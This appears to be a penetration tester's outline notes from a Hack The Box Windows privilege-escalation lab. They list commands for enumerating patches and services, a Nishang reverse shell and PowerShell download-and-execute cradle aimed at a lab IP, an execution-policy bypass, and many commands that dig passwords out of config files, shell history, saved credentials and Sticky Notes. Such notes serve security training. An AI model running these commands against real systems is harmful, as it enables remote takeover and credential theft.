         - systeminfo
        
        - wmic qfe list brief
        - Get-Hotfix
- Vulnerable Services
    - Enumerating Installed Programs
        - wmic product get name
    - Enumerating Local Ports
        - netstat -ano | findstr 6064
    - Enumerating Process ID
        - get-process -Id 3324
    - Enumerating Running Service
        - get-service | ? {$_.DisplayName -like 'Druva*'}
    - [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
    - `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443`
    - `$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"`
    - Set-ExecutionPolicy Bypass -Scope Process
    - [https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)

### Credential Theft

- PS C:\htb> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
- IIS C:\inetpub\wwwroot\web.config
- Chrome Dictionary Files
    - PS C:\htb> gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
- Unattended Installation Files
    - unattend.xml
- PowerShell History File
    - C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt.
    - PS C:\htb> (Get-PSReadLineOption).HistorySavePath
    - PS C:\htb> gc (Get-PSReadLineOption).HistorySavePath
    - PS C:\htb> foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
- PowerShell Credentials
    - $credential = Import-Clixml -Path 'C:\scripts\pass.xml’
    - $credential.GetNetworkCredential().username
    - $credential.GetNetworkCredential().password
- Search File Contents for String - Example 1
    - C:\htb> cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt
- Search File Contents for String - Example 2
    - C:\htb> findstr /si password *.xml *.ini *.txt *.config
- Search File Contents for String - Example 3
    - C:\htb> findstr /spin "password" *.*
- Search File Contents with PowerShell
    - PS C:\htb> select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password
- Search for File Extensions - Example 1
    - C:\htb> dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
- Search for File Extensions - Example 2
    - C:\htb> where /R C:\ *.config
- Search for File Extensions Using PowerShell
    - PS C:\htb> Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
- findstr /spin "ldapadmin" *.*

> Get-ChildItem -Recurse -Filter [filtype] | Select-String -Pattern [searchterm] -CaseSensitive:$false | Select-Object -Property Path
> 
- Sticky Notes Passwords
    - C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
